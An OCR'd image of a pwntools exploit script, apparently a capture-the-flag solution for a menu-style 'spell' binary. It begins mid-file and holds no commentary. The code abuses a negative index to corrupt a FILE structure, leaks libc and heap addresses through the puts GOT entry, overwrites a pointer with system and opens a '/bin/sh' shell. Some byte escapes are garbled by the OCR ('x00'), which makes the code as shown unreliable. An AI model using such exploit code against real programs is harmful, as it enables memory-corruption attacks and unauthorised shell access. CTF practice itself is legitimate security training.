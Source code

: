 ```
    p.send(name)

def spell(p, index, data):
    p.recvuntil('choice&gt;&gt; ')
    p.sendline('2')
    p.recvuntil('spell:')
    p.sendline(str(index))
    p.recvuntil('name:')
    p.send(data)

def final(p, index):
    p.recvuntil('choice&gt;&gt; ')
    p.sendline('3')
    p.recvuntil('chance:')
    p.sendline(str(index))

def pwn():
    create(p, 'sss')
    spell(p, 0, 'yyyyy')

    for i in range(12):
        spell(p, -2, 'x00')  
    spell(p, -2, 'x00' * 13)
    spell(p, -2, 'x00' * 9)
    #debug()

    spell(p, 0, 'x00' * 3 + p64(0x231) + p64(0xfbad24a8))
    spell(p, 0, p64(puts_got) + p64(puts_got + 0x100))

    libc_addr = u64(p.recvn(6).ljust(8,'x00')) - puts_offest
    log.info('libc addr is : ' + hex(libc_addr))
    #debug()
    spell(p, -2, p64(0) + p64(0))
    spell(p, 0, 'x00' * 2 + p64(0x231) + p64(0xfbad24a8))
    spell(p, 0, p64(log_addr) + p64(puts_got + 0x100) + p64(0))
    heap_addr = u64(p.recvn(8)) - 0x10
    log.info('heap addr is : ' + hex(heap_addr))
    debug()
    spell(p, 0, p64(heap_addr + 0x58) + p64(0) + p64(heap_addr + 0x58))
    #debug()
    spell(p, 0, p64(0x602122) + p64(0x602123 + 0x100))
    spell(p, -2, 'x00')
    spell(p, -2, 'x01')
    spell(p, -2, 'x00')
    spell(p, 0, 'x00' * 2 + p64(libc_addr + system_offest)[0 : 6])
    spell(p, 0, '/bin/sh')
    p.interactive()

if __name__ == '__main__':
    pwn()
```
